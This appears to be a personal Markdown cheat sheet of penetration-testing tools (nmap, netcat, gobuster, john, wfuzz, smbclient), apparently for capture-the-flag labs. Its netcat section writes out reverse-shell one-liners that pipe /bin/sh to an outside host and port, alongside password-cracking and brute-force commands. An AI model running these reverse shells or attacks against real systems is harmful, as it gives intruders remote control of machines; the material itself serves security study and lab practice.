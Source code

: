 ```yaml
---
Title: Tools Organization
Description:
---
```


## Content

[***01 - Information Gathering***](#01---information-gathering): [💲Nmap](#nmap) - [💲Netcat (nc)](#netcat-nc)

+ Live Host Identification: 💲ping

[***03 - Web Application Analysis***](#03---web-application-analysis): 📦OWASP ZAP, 📦burpsuite

+ Web Crawlers & Directory Bruteforce: [💲gobuster](#gobuster)

[***02 - Vulnerability Analysis***](#02---vulnerability-analysis):[📦Nessus](#nessus), 📦Open VAS

[***05 - Password Attacks***](#05---password-attacks): [💲John](#john)

+ Online Attacks: [💲hydra](#hydra)

[***09 - Sniffing & Spoofing***](#09---sniffing--spoofing): 💲responder, 💲tcpdump, 📦wireshark

[***10 - Post Exploitation***](#10---post-exploitation): 💲evil-winrm

<!-- 
[***Website Vulnerability Scan***](#website-vulnerability-scan): Acunetix Web Vulnerability Scanner (AWVS)
***Passive***:
[***DNS***](#dns): whois, nslookup, host, dig, fierce, DNSenum, DNSrecon, Sublist3r, dnsdumpster
[***Web Reconnaissance***](#web-reconnaissance): Google Hacking, Google Map, shadon, Recon-ng
[***Git***](#git): Github/Gitlab, scrabble, GitHack
[***Email***](#email): theHarvester
***Active***
[***Network Service***](#network-service): Netdiscover, Netdiscover
[***SNMP***](#snmp): Onesixtyone, SNMPwalk
[***Samba***](#samba): rpcclient, enum4linux
[***Web***](#web): Nikto, DRIB, Dirbuster, WPScan
 -->

[***Storage Service***](#storage-service): [💲AWS-S3](#aws-s3), 💲mysql, 💲redis-cli, [💲smbclient](#smbclient)

[***File & Data***](#filedata): ASCII, 💲base64, 💲[exiftool](#exiftool)

[***Useful Repository***](#useful-repository): 📒[SecLists](#seclists)

## 01 - Information Gathering

### 💲nmap

<https://nmap.org/>

`sudo nmap --top-ports 3000  -F -sS -sC -sV -n -T4 ${ip}`

> -F: Fast mode - Scan fewer ports than the default scan
>
> -sS (TCP SYN scan)
> SYN scan is the default and most popular scan option for good reasons. It can be
> performed quickly, scanning thousands of ports per second on a fast network not
> hampered by restrictive firewalls.
>
> -sC: Performs a script scan using the default set of scripts. It is equivalent to --
> script=default. Some of the scripts in this category are considered intrusive and
> should not be run against a target network without permission.
>
> -sV: Enables version detection, which will detect what versions are running on what port.
>
> -n (No DNS resolution)
>
> -T4 prohibits the dynamic scan delay from exceeding 10 ms for TCP ports

#### 💲NetCat (nc)

Netcat is a versatile utility for working with TCP or UDP data.

``` shell
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 172.18.0.1 1337 > /tmp/f; rm /tmp/f
nc -nlvp 1337

rm /tmp/f; mkfifo /tmp/f; nc <attack IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

+ [Netcat（Linux nc 指令）網路管理者工具實用範例](https://blog.gtwang.org/linux/linux-utility-netcat-examples/)

## 02 - Vulnerability Analysis

### 📦Nessus

+ [How to Get Started with Nessus on Kali Linux | Tenable®](https://www.tenable.com/blog/getting-started-with-nessus-on-kali-linux)

## 03 - Web Application Analysis

### 💲gobuster

directory/file enumeration mode

+ `gobuster dir --url http://${ip}/ --wordlist ../../tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -x php,html`

VHOST enumeration mode

+ `gobuster vhost -w ../../tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb`

## 05 - Password Attacks

### 💲john

Password cracker.

`john -w=rockyou.txt hash.txt`

### 💲hydra

### 💲wfuzz

``` shell
wfuzz --sc 200 -w num.txt -H "Cookie: user=FUZZ; role=guest"  http://10.129.81.172/uploads/
```

> --sc 200: only show the response with status code 200

## 09 - Sniffing & Spoofing

## 10 - Post Exploitation

---

<!-- 
## Website Vulnerability Scan
## DNS
## Web Reconnaissance
## Git
## Email
## Other
## Network Service
## SNMP
## Samba
## Web
## Reverse Shell
## Dump Traffic
 -->

## Storage Service

### 💲AWS-S3

+ `aws configure`
+ `aws s3 ls`

### 💲smbclient

+ `smbclient -L \\\\${ip}`

> -L: lsit
> -U: user

## File&Data

### ASCII

+ convert ASCII values into ASCII characters: \
  `echo "65 66 67" | awk '{ for(i=1;i<=NF;i++) printf("%c",$i); print "";  }'`

### 💲base64  

Encode or decode file or standard input to/from Base64, to standard output. \
More information: <https://www.gnu.org/software/coreutils/base64>.

+ Encode the contents of a file as base64 and write the result to stdout: \
  `base64 filename`

+ Decode the base64 contents of a file and write the result to stdout: \
  `base64 --decode filename`

+ Encode from stdin: \
  `<command> | base64`

+ Decode from stdin: \
  `<command> | base64 --decode`

### 💲exiftool  

Read and write meta information in files. \
More information: <https://exiftool.org.>.

## Useful Repository

### 📒SecLists

  <https://github.com/danielmiessler/SecLists>

  SecLists is the security tester's companion. It's a collection of multiple types of lists used during security assessments, collected in one place. List types include usernames, passwords, URLs, sensitive data patterns, fuzzing payloads, web shells, and many more.
